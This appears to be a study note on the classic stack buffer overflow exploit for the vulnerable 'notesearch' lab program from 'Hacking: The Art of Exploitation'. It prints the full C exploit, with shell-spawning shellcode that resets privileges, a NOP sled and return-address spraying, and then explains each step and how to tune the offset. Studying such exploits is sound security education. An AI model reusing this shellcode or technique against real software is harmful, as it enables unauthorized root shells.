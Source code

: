 # x86

&#x20; _**hacking: the art of exploitation**_

{% code title="exploit_notesearch.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
 unsigned int i, *ptr, ret, offset=270;
 char *command, *buffer;
 
 command = (char *) malloc(200);
 
 bzero(command, 200); // Zero out the new memory.
 
 strcpy(command, "./notesearch \'"); // Start command buffer.
 buffer = command + strlen(command); // Set buffer at the end.
 
 if(argc > 1) // Set offset.
  offset = atoi(argv[1]);
  
 ret = (unsigned int) &i - offset; // Set return address.
 
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
 *((unsigned int *)(buffer+i)) = ret;
 
 memset(buffer, 0x90, 60); // Build NOP sled.
 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
 
 strcat(command, "\'");
 system(command); // Run exploit.
 free(command);
}
```
{% endcode %}

The exploit above displays a simple buffer overflow exploit for the x86 architecture.

> This exploit will only work with architecture that have a stack growing downwards (to lower memory addresses).

#### Explanation

1. Shellcode string
   * ...
2. Set return address (estimated)

```c
ret = (unsigned int) &i - offset; // Set return address.
```

Set the return address by subtracting a guessed offset value from the current stack location. This calculates a possible lower memory location that may land in the NOP sled when the `notesearch` program is executed. Keep in mind that a subtraction is used instead due to the stack growing downwards.

3. Fill buffer space with return address
   * This is performed in hopes of overwriting the `EIP` (instruction pointer) with the return address of our choice
   * to trick the CPU into executing malicious code

```c
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
  *((unsigned int *)(buffer+i)) = ret;
```

4. Build NOP sled and append shellcode

```c
memset(buffer, 0x90, 60); // Build NOP sled.
memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
```

The value `0x90` represents a NOP instruction in x86 assembly. A NOP instruction is simply a command that does nothing. In this case, it is used to simply advance to the next instruction, to eventually execute the shellcode.

**1st line**: appends 60 bytes of the NOP instruction

**2nd line**: appends shellcode right after the NOP sled

#### Methods to fine-tune the exploit

1. Increase the NOP sled size
   * This increases the chances of the return address value (calculated with the offset) to land within the NOP sled region
2. Vary the offset value
   * Experiment with different offset values to determine the value that provides the return address which falls within range the range of the NOP sled region

